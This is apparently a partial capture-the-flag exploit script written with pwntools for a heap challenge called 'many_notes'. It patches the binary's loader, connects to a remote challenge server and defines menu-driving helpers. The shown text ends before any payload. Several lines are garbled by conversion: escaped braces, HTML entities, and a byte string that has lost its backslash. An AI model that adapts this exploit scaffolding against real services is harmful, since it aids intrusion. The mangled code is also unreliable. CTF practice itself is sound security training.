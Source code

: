 ```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
#version 6 by tempo
from pwn import *
from time import sleep
import base64
context(os='linux', arch='amd64')
context.log_level = 'debug'
IS_DEBUG = 0
prog = './many_notes'
def change_ld(binary,ld):
    if not os.access(ld, os.R_OK): 
        log.failure("Invalid path `{``}` to ld".format(ld))
        return None
    if not isinstance(binary, ELF):
        if not os.access(binary, os.R_OK): 
            log.failure("Invalid path `{``}` to binary".format(binary))
            return None
        binary = ELF(binary)
    for segment in binary.segments:
        if segment.header['p_type'] == 'PT_INTERP':
            size = segment.header['p_memsz']
            addr = segment.header['p_paddr']
            data = segment.data()
            if size &lt;= len(ld):
                log.failure("Failed to change PT_INTERP from `{``}` to `{``}`".format(data, ld))
                return None
            binary.write(addr, ld.ljust(size, ''))
            if not os.access('/tmp/pwn', os.F_OK): os.mkdir('/tmp/pwn')
            path = '/tmp/pwn/`{``}`_debug'.format(os.path.basename(binary.path))
            if os.access(path, os.F_OK): 
                os.remove(path)
                info("Removing exist file `{``}`".format(path))
            binary.save(path)    
            os.chmod(path, 0b111000000) #rwx------
    success("PT_INTERP has changed from `{``}` to `{``}`. Using temp file `{``}`".format(data, ld, path)) 
    return ELF(path)
#example
elf = change_ld('./many_notes', './ld-linux-x86-64.so.2')

if IS_DEBUG:
    r = elf.process(env=`{`'LD_PRELOAD':'./libc.so.6:./ld-linux-x86-64.so.2:./libpthread.so.0'`}`)
    libc =r.libc
    # r = process(prog, env=`{`'LD_PRELOAD':'../libc/libc-2.28.so'`}`)
else:
    r = remote('123.206.174.203', 20003)

# r = process('./`{``}`'.format(prog))
libc = ELF('./libc.so.6')

def my_u64(byte_arr):
    padding = b'x00' * (8-len(byte_arr))
    res = byte_arr + padding
    return struct.unpack('&lt;Q', res)[0]

def round(size,padding,input,content):
    r.sendlineafter("Choice","0")
    r.sendlineafter("Size",str(size))
    r.sendlineafter("Padding",str(padding))
    r.sendlineafter("Input?",str(input))
    if input != 0:
        r.sendafter("Content",str(content))
```